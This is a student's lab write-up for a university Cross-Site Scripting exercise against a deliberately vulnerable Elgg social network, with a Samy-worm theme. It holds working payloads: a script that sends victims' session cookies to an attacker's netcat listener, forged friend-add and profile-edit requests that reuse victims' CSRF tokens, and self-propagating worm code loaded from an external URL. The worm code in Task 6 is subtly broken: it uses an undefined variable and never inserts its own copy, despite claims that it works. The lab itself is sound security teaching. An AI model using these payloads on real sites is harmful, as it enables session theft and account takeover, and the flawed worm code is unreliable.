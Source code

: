 <p align="center">
    Lab 05 - Cross-Site Scripting (XSS) Attack Lab <br/>
    By Patrick O'Connor <br/>
    v75j556 <br/>
    CSCI 476 - Spring 2021 <br/>

</p>

# Table of Contents
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)
- [Contact](#contact)
	- <a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>

<a name="desc"></a>
# About this project
Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject malicious code (e.g., JavaScript) into a victim’s web browser. Using this malicious code, attackers can steal a victim’s credentials, such as session cookies. Access control policies (i.e., the same origin policy) employed by browsers to protect user credentials can be bypassed by exploiting XSS vulnerabilities.

To demonstrate what attackers can do by exploiting XSS vulnerabilities, we have set up a web application named Elgg. Elgg is a very popular open-source social networking web application, and it has implemented a number of countermeasures to remedy XSS threats. To demonstrate how XSS attacks work, we have disabled these countermeasures in our installation of Elgg, intentionally making Elgg vulnerable to XSS attacks. Without the countermeasures, users can post arbitrary message, including JavaScript code, to user profiles.

In this lab, students need to exploit this vulnerability to launch an XSS attack on the modified Elgg web app in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among users, such that whoever views an infected user profile will be infected, and whoever is infected will add you (i.e., the attacker) to their friend list.

Started: March 14, 2021
\
Last Updated: March 17, 2021
\
Due Date: March 16, 2021

<a name="struct"></a>
# File Structure
- lab05
	- README.md



<a name="tasks"></a>
#   Task 1: Post a Malicious Message to Display an Alert Window
The objective of this task is to embed JavaScript code in your Elgg profile, such that when another user views your profile, the JavaScript code will be executed and an alert window will be displayed.

The following JavaScript code will display an alert window:
```
<script>alert('XSS');</script>
```
![Webpage Accesses from root](./images/lab05-alert.png)
If you embed the above JavaScript code in your profile (e.g., in the brief description field), then any user who views your profile will see the alert window. In this case, the JavaScript code is short enough to be typed into the short description field. If you want to run a more substantial piece of JavaScript, but you are limited by the number of characters you can type in the form, you can store the JavaScript code in a standalone file, save it with the .js extension, and then refer to it using the src attribute in the <script> tag. For example:

```
<script type="text/javascript"
    src="http://www.example.com/myscripts.js">
</script>
```

In this example, the page will fetch the JavaScript code from http://www.example.com, which can be any web server.
\
This was not something I had ever thought had existed and is surprising easy. It makes complete sense though as when refreshing the page and loading elements the profile data is loaded including the JS code that can be seen above. I am excited to see what is to come next in this lab.

#   Task 2: Post a Malicious Message to Display Cookies
The objective of this task is to embed JavaScript code in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding additional code to the JavaScript code from the previous task:
```
<script>
alert(document.cookie);
</script>
```
Using the code above we can use this through a different users account and find out the cookie information of the current session as seen below in the image.
![Webpage Accesses from root](./images/lab05-cookie.png)

#   Task 3: Steal Cookies from the Victim's Machine
In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to somewhere that the attacker can access the information. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

We can do this by having the malicious JavaScript insert an ```<img>``` tag with its ```src``` attribute set to the attacker’s machine. When the JavaScript inserts the ```img``` tag, the browser tries to load the image from the URL in the ```src``` field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to port 5555 of the attacker’s machine (with IP address ```10.9.0.1```), where the attacker has a TCP server listening on the same port.
With ```netcat``` listening on ```10.9.0.1:5555``` we can insert the following script and save.
```
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>
```
![Webpage Accesses from root](./images/lab05-netcat01.png)
After saving, the JS code is executed and we see the HTTP request and cookie on the terminal as seen below in the screenshot.
![Webpage Accesses from root](./images/lab05-netcat02.png)
This will be activated whether you are on the infected profile and the owner or you are just visiting the infected profile and as long as there is some program listening it will in fact capture the HTTP request and the cookie information of profile visitor.

#   Task 4: Becoming the Victim's Friend
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. This worm does not self-propagate; in a later task we will make it self-propagating.

In this task, we need to write malicious JavaScript code that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim. We have already created a user called Samy on the Elgg server (the user name is ```samy```).

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what is sent to the server when a user adds a friend. (Any tool that helps with HTTP inspection is useful here.) By inspecting the contents of HTTP requests, we can identify all of the parameters in the request. Once we understand what the add-friend HTTP request look like, we can write JavaScript code to craft and send an identical HTTP request. We provide template code that aids in completing the task.
```<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    // This data is sent by the server (look at the page's source code!)
    // and must be included in subsequent requests.
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;           // (1) elgg CSRF countermeasure
    var token="&__elgg_token="+elgg.security.token.__elgg_token;  // (2) elgg CSRF countermeasure

    // Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;  //FILL IN

    // Create and send an Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

The above code should be placed in the “About Me” field of Samy’s profile page. This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not. Since we do not want any extra code added to our attack code, the Text mode should be enabled before entering the above JavaScript code. This can be done by clicking on “Edit HTML”, which can be found at the top right of the “About Me” text field.
\
To get the information to fill the required information above I used the developer tools that are available in firefox. This gave me the information as seen below in the screenshot to fill in the above code and create the xss attack. Along with this in the next screenshot we can see that the page owner in the source code is 59
![Webpage Accesses from root](./images/lab05-request-friend.png)
![Webpage Accesses from root](./images/lab05-page-owner-59.png)
\
After saving this as raw text in the about me section we can see in the activity that Samy is now his own friend. To ensure this is effective on other users we can log into another account and visit Samy's profile page. If our script above is effective the log-in user will be added as a friend to samy without pressing the add friend button.

##  Task 4.1:
Carry out the attack to add Samy as a friend to the victim. Describe your strategy and provide supporting code/details.
\
Utilizing the code above we can add Samy as a friend of the victim by somehow getting them to visit our page and then loading the "About Me" section. When this loads the injected script will be executed and therefore the user will then be made Samy's friend without asking either party.  

As you can see below when logged in as Alice and visiting samy's page we instantly add him as a friend without any input from alice.
![Webpage Accesses from root](./images/lab05-no-friends.png)
![Webpage Accesses from root](./images/lab05-samy-friend.png)

After visiting Samy's page through Alice's interface we can navigate back to Samy's Page and it can be seen that Alice is now a friend after doing nothing but visting his page.
![Webpage Accesses from root](./images/lab05-add-samy-friend.png)
##  Task 4.2:  
If the Elgg application only provided the Editor mode for the “About Me” field (i.e., you cannot switch to the Text mode), can you still launch a successful attack?
\
No this would not be possible as the special characters used within our script would not be interpreted the same in the editor mode. As stated earlier this input method would convert our script to html and therefore make the script utilized above useless at this point.

#   Task 5: Modifying the Victim’s Profile
The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. We will write an XSS worm to complete the task. This worm does not self-propagate; in a later task we will make it self-propagating.

Similar to the previous task, we need to write malicious JavaScript code that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should first find out how a legitimate user edits or modifies their profile in Elgg. More specifically, we need to figure out how the HTTP POST request is constructed to modify a user’s profile. (Again, any tool that helps with HTTP inspection is useful here.) Once we understand how the modify-profile HTTP POST request is formatted, we can write JavaScript code to send out an identical HTTP request. We provide template code that aids in completing the task.

```<script type="text/javascript">
window.onload = function(){
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var name=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var desc="&description=I love Samy";
    // Construct your url.
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";     //FILL IN

    // Construct the content of your request.
    var content=token+ts+name+desc+guid;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=59;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }

}
</script>
```
Similar to Task 4, the above code should be placed in the “About Me” field of Samy’s profile page, and the Text mode should enabled before entering the above JavaScript code.
\
In order to edit the profile of a victim I decrypted the process on Samy's page. We can examine this process by looking at the HTTP requests sent when editing Samy's profile.

![Webpage Accesses from root](./images/lab05-edit-profile-HTTP.png)

In the image above we can see that editing your profile is done through a post request.

So, in order to edit a profile we must have their guid. secret token, timestamp, and the edit in type string stored in the desired field.

##  Task 5.1:
Carry out the attack to modify the victim’s profile when the victim visits Samy’s page.
\
With the code noted above in Samy's profile we can now navigate to his page from Alice's login. After navigating to the page and back to Alice's page we can see that her about me page has been edited to the description noted above which is I love Samy
![Webpage Accesses from root](./images/lab05-I-love-samy.png)
##  Task 5.2:  
Why do we need line (1) in the code above?
\
We need this line in order to bypass attacking Samy himself and therefore replace the infection JS that is currently in his About Me section with I love Samy.
Remove this line, and repeat your attack. Report and explain your observation(s).
\
Removing this line does exactly what is explained above, in that the attack is now ineffective and only changes Samy's profile to I love Samy. Both photos below are proof of the JS being erased when the line (1) is removed.
![Webpage Accesses from root](./images/lab05-remove-line01.png)
![Webpage Accesses from root](./images/lab05-self-attack.png)

#   Task 6: Writing a Self-Propagating XSS Worm
To become a real worm, the malicious JavaScript code should be able to propagate itself. Namely, whenever some people view an infected profile, not only will their profiles be modified, the worm will also be propagated to their profiles, further affecting others who view these newly infected profiles. Thus, the more people that view infected profiles, the faster the worm can propagate. This is exactly the same mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that can achieve this is called a self-propagating cross-site scripting worm. In this task, you need to implement such a worm, which not only modifies the victim’s profile and adds the user “Samy” as a friend, but also add a copy of the worm itself to the victim’s profile, so the victim is in essence turned into an attacker.

To achieve self-propagation, when the malicious JavaScript modifies the victim’s profile, it should copy itself to the victim’s profile. There are several approaches to achieve this, and we will discuss two common approaches.

##  Link Approach
If the worm is included using the ```src``` attribute in the ```<script>``` tag, writing self-propagating worms is quite easy. We discussed the ```src``` attribute in Task 1, and an example is given below. The worm can simply copy the following ```<script>``` tag to the victim’s profile, essentially infecting the profile with the same worm.

```
<script type="text/javascript" src="https://raw.githubusercontent.com/OConnorP3276/comp-security-self-prop/master/xss_worm.js"></script>
```
The following script can be found at the address noted above.
```
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";  // (1)
    var jsCode = document.getElementById("worm").innerHTML;           // (2)
    var tailTag = "</" + "script>";                                   // (3)

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);  // (4)
// Get the name, guid, timestamp, and token.

    var userName = elgg.session.user.name;
    var guid = "&guid="+elgg.session.user.guid;
    var ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token = "&__elgg_token="+elgg.security.token.__elgg_token;
    // Set the content of the description field and access level.
    var link="https://raw.githubusercontent.com/OConnorP3276/comp-security-self-prop/master/xss_worm.js"
    var desc="&description=I love Samy"+link;

    // Set the URL, and create and send Ajax request to modify profile
    // Construct your url.
    var sendediturl="http://www.xsslabelgg.com/action/profile/edit";     //FILL IN

    // Construct the content of your request.
    var content=token+ts+name+desc+guid;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=59;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendediturl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }

    // TODO: Set the URL, and create and send Ajax request to add Samy as a friend
    var sendaddurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;  //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
    var Ajax=null;
    // Create and send an Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendaddurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
    }
</script>
```

##  DOM Approach
Assuming the entire JavaScript code (i.e., the worm) is embedded in the infected profile, to propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from the web page.

It should be noted that ```innerHTML``` (2) only gives us the inside part of the code, not including the surrounding ```script``` tags. We just need to add the beginning tag ```<script id="worm">``` (1) and the ending tag ```</script>``` (3) to form an identical copy of the malicious code.

When data is sent in HTTP POST requests with the ```Content-Type``` set to ```application/x-www-form-urlencoded```, which is the type used in our code, the data should also be encoded. The encoding scheme, URL encoding, replaces non-alphanumeric characters in the data with ```%HH``` (i.e., a percentage sign and two hexadecimal digits representing the ASCII code of the character). The ```encodeURIComponent()``` function (4) is used to URL-encode a string.



# Quick-Nav
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)

\
<a name="contact"></a>
<a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>
